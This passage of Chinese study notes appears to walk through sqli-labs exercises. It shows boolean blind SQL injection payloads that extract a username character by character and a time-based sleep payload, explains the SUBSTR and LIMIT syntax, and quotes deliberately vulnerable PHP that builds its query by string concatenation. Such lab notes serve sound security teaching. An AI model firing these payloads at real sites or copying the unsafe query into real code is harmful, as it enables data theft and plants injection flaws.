 猜列名

```
1' and if(ascii(substr((select username from users limit 0,1),3,1))=109,1,0)-- a
```

```sql
SUBSTR(string, start, length)
```

- `string`：要提取子字符串的原始字符串。
- `start`：子字符串开始的位置（从1开始计数）。
- `length`：要提取的子字符串的长度。

```sql
SELECT * FROM table_name LIMIT offset, number_of_rows;
```

- `offset`：指定从哪一条记录开始返回结果（从0开始计数）。
- `number_of_rows`：指定返回结果的最大行数。

## less-9 时间盲注

时间盲注

```php+HTML
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

        if($row)
        {
        echo '<font size="5" color="#FFFF00">';
        echo 'You are in...........';
        echo "<br>";
        echo "</font>";
        }
        else 
        {

        echo '<font size="5" color="#FFFF00">';
        echo 'You are in...........';
        //print_r(mysql_error());
        //echo "You have an error in your SQL syntax";
        echo "</br></font>";
        echo '<font color= "#0000ff" font size= 3>';

        }
}
```

判断注入

```
1' and if(1=1, sleep(5), null) --+
```
